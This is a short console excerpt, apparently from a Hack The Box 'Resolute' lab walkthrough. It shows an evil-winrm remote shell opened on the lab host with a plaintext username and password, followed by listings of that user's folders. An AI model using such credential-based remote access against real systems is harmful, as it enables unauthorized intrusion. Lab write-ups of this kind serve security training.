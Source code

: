 ```console
root@discovery:~/htb/resolute# evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents> dir
*Evil-WinRM* PS C:\Users\melanie\Documents> cd ..
*Evil-WinRM* PS C:\Users\melanie> dir


    Directory: C:\Users\melanie


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
d-r---        12/4/2019   2:47 AM                Desktop                                                                                                                                                                                                 
d-r---        12/4/2019   2:46 AM                Documents                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Downloads                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Favorites                                                                                                                                                                                               
d-r---        7/16/2016   6:18 AM                Links                                                                                                                                                                                                   
d-r---        7/16/2016   6:18 AM                Music                                                                                                                                                                                                   
d-r---        7/16/2016   6:18 AM                Pictures                                                                                                                                                                                                
d-----        7/16/2016   6:18 AM                Saved Games                                                                                                                                                                                             
d-r---        7/16/2016   6:18 AM                Videos                                                                                                                                                                                                  


*Evil-WinRM* PS C:\Users\melanie> cd Desktop
*Evil-WinRM* PS C:\Users\melanie\Desktop> dir


    Directory: C:\Users\melanie\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
```
